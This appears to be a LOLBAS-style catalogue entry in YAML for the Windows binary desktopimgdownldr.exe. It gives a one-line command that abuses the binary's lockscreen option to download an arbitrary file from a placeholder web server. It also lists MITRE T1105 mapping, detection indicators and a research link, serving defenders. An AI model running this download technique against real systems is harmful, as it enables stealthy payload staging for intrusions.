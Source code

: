 ```yaml
---
Name: Desktopimgdownldr.exe
Description: Windows binary used to configure lockscreen/desktop image
Author: Gal Kristal
Created: 28/06/2020
Commands:
  - Command: set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
    Description: Downloads the file and sets it as the computer's lockscreen
    Usecase: Download arbitrary files from a web server
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/techniques/T1105/
    OperatingSystem: Windows 10
Full_Path:
  - Path: c:\windows\system32\desktopimgdownldr.exe
Code_Sample:
  - Code:
Detection:
  - IOC: desktopimgdownldr.exe that creates non-image file
  - IOC: Change of HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP\LockScreenImageUrl
Resources:
  - Link: https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/
Acknowledgement:
  - Person: Gal Kristal
    Handle: "@gal_kristal"
---
```

